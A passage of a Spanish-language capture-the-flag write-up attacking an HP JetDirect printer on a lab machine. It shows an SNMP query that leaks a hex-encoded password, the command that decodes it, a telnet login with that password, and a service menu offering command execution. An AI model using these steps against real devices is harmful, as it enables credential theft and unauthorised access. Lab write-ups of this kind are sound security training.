 Voy a intentar enumerarlo como pone pero con nuestra herramienta de enumeracion:

```shell
snmpget -v1 -c public 10.10.11.107 1.3.6.1.4.1.11.2.3.9.1.1.13.0
```

BINGO!! obtenemos una cadena en hexadecimal bastante sospechosa:

```shell
SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

si lo decodificamos obtenmos una contraseña `P@ssw0rd@123!!123`

```shell
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | tr -d ' ' | xxd -r -p
P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i   IY�aA�"1&1A5
```

## Accedemos al servicio telnet
Es momento de intentar acceder al servicio `Telnet` y comprobar que nos encontramos, al parecer esta el campo para poner la contraseña que hemos encontrado y conseguir acceder.

```shell
telnet 10.10.11.107 
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123
```
Al entrar nos encontramos un con que si ponemos una `?` podemos obtener más datos de quienes somos parece que alfinal hay una opcion con exec para ejecutar comandos del sistema
```shell
Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
> 

```